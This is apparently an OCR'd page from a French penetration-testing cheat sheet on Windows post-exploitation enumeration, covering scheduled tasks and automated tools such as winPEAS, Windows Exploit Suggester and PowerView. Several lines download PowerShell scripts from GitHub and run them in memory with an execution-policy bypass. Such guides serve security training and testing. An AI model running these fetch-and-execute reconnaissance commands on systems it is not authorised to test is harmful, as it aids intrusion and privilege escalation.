 ```batch
```

## 🕐 Phase 5 : Tâches Planifiées

### Énumération des tâches
```batch
# Toutes les tâches planifiées
schtasks /query /fo LIST /v

# Tâches par dossier
schtasks /query /tn \Microsoft\Windows\

# Création de nouvelles tâches (si droits)
at
schtasks /create /?
```

## 🔧 Outils d'Énumération Automatisée

### winPEAS
```batch
# Téléchargement et exécution
powershell -c "iwr -uri 'https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEASx64.exe' -outfile 'winPEAS.exe'"
winPEAS.exe

# Version PowerShell
powershell -ep bypass -c "iex(iwr -uri 'https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/winPEAS/winPEASps1/winPEAS.ps1')"
```

### Windows Exploit Suggester
```batch
# Collecter systeminfo
systeminfo > systeminfo.txt

# Analyser avec WES (côté attaquant)
python windows-exploit-suggester.py --database 2021-09-21-mssb.xls --systeminfo systeminfo.txt
```

### PowerSploit/PowerView
```powershell
# Import PowerView
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1')

# Énumération domaine (si joint au domaine)
Get-NetDomain
Get-NetUser
Get-NetGroup
Get-NetComputer
```
